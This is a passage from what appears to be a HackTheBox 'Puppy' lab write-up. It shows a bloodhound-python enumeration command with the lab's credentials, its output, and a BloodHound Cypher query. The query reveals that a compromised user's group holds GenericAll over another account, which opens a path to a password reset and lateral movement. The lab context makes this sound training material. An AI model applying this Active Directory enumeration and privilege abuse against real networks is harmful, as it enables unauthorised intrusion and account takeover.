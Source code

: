

```
~$ bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -dc dc.puppy.htb -d PUPPY.HTB -c All -ns <IP> -o bloodhound_edwards.json

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 29S
```

<p class="indent-paragraph">
To explore the extent of <span class="blue">ant.edwards</span>'s influence within the domain, we ran a broader query to uncover any shortest privilege paths linking him to other user objects. Using<code>MATCH (n:User {name: 'ANT.EDWARDS@PUPPY.HTB'}), (m:User) WHERE n &lt; &gt; m WITH n, m MATCH p = shortestPath((n)-[*..4]-&gt;(m)) RETURN p</code><span class="codefix">,</span> we visualized the privilege graph around his account. The resulting BloodHound path revealed a particularly notable relationship: <span class="blue">ant.edwards</span> is a member of the<code>SENIOR DEVS</code> group, which holds <span class="highlight-red">GenericAll</span> permissions over <span class="blue">adam.silver</span>.</span> This means Edwards can reset Adam’s password or make any modification to his account — a promising vector for lateral movement.
</p>

<img src="/img/redteam/htb/puppy/graph_objects_ant-edwards.png" alt="BloodHound showing SENIOR DEVS GenericAll over Adam Silver">
